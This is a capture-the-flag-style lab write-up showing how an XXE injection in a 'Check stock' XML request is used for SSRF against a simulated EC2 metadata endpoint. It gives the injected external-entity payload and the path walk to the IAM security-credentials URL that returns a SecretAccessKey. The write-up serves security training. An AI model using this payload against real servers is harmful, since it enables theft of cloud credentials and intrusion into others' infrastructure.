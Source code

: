 # Lab: Exploiting XXE to perform SSRF attacks

>This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

>The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

>To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

### Observations
`POST /product/stock` contains the following xml in the body of the request:

 `<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>`

 I declared the following external entity to make a request to 169.254.169.254: `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>` and then replaced the productId value with `&xxe;`

 I sent this request and the server returned status code 400 with: "Invalid product ID: latest"

 We did not pass anything that would include the value `latest`. Is it possible that this message was returned from the `169.254.169.254` IP? So I then made a request to `http://169.254.169.254/latest`

 We then receive the following response:
  "Invalid product ID: meta-data"

and then:
 "Invalid product ID: iam"

 and then:
 "Invalid product ID: security-credentials"

 and then:
  "Invalid product ID: admin"

### Solution
I just kept appending the "invalid product id" to my request and it led me to create this request:

`http://169.254.169.254/latest/meta-data/iam/security-credentials/admin`

This endpoint shows a SecretAccessKey, lab solved!


